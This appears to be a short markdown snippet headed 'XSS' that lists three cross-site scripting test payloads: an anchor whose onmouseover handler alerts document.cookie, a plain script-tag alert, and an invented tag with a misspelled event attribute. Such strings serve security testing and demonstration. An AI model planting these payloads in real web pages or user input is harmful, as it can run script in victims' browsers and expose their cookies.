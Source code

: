 # XSS
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
<script>alert(1)</script>
<xss onafterscripteceute="alert(1)"><script>1</script>
 
